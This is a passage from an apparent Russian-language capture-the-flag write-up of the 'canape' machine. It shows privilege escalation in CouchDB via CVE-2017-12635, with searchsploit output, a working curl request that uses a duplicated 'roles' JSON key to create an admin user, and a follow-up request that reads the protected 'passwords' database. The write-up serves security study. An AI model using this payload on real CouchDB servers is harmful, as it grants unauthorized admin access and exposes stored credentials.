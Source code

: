 Успешно прочитали таблицу с цитатами Симпсонов, но вот для открытия загадочной БД `passwords` у нас не хватило прав. Это означает лишь одно — будем искать способ для обхода ограничений СУБД для повышения привилегий в системе. Таких способа 2 (использованных мной, вообще, может больше), ниже рассмотрим оба.

## PrivEsc: www-data → homer. Способ 1
Для начала спросим у searchsploit'а, какие способы повышения привилегий в рамках CouchDB существуют:
```text
searchsploit couchdb
------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                           |  Path
                                                                         | (/usr/share/exploitdb/)
------------------------------------------------------------------------- ----------------------------------------
Apache CouchDB - Arbitrary Command Execution (Metasploit)                | exploits/linux/remote/45019.rb
Apache CouchDB 1.7.0 and 2.x before 2.1.1 - Remote Privilege Escalation  | exploits/linux/webapps/44498.py
Apache CouchDB 2.0.0 - Local Privilege Escalation                        | exploits/windows/local/40865.txt
Apache CouchDB < 2.1.0 - Remote Code Execution                           | exploits/linux/webapps/44913.py
Couchdb 1.5.0 - 'uuids' Denial of Service                                | exploits/multiple/dos/32519.txt
------------------------------------------------------------------------- ----------------------------------------
```

*Apache CouchDB 1.7.0 and 2.x before 2.1.1 - Remote Privilege Escalation* отвечает за уязвимость под номером [CVE-2017-12635](https://nvd.nist.gov/vuln/detail/CVE-2017-12635 "NVD - CVE-2017-12635") и позволяет из-под гостя создавать пользователя с правами админа за счет некорректной обработки параметров JSON-парсером Javascript'а. В [этой](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html "Remote Code Execution in CouchDB") статье механизм уязвимости описан более подробно.

Не будем пользоваться готовым скриптом для эксплуатации, а самостоятельно сформируем вредоносный запрос с помощью curl:
```text
www-data@canape:/$ curl -X PUT http://127.0.0.1:5984/_users/org.couchdb.user:3V1LH4CK3R \
--data-binary '{
  "type": "user",
  "name": "3V1LH4CK3R",
  "roles": ["_admin"],
  "roles": [],
  "password": "qwerty123"
}'
{"ok":true,"id":"org.couchdb.user:3V1LH4CK3R","rev":"1-a26b92cd5e22201ed1a5ee23f9eba1d9"}
```

Теперь для просмотра защищенного содержимого БД достаточно в теле запроса авторизоваться под только что созданным пользователем так:
```text
www-data@canape:/$ curl -X GET http://3V1LH4CK3R:qwerty123@127.0.0.1:5984/passwords
{"db_name":"passwords","update_seq":"46-g1AAAAFTeJzLYWBg4MhgTmEQTM4vTc5ISXLIyU9OzMnILy7JAUoxJTIkyf___z8rkR2PoiQFIJlkD1bHik-dA0hdPGF1CSB19QTV5bEASYYGIAVUOp8YtQsgavcTo_YARO39rER8AQRR-wCiFuhetiwA7ytvXA","sizes":{"file":222462,"external":665,"active":1740},"purge_seq":0,"other":{"data_size":665},"doc_del_count":0,"doc_count":4,"disk_size":222462,"disk_format_version":6,"data_size":1740,"compact_running":false,"instance_start_time":"0"}
```
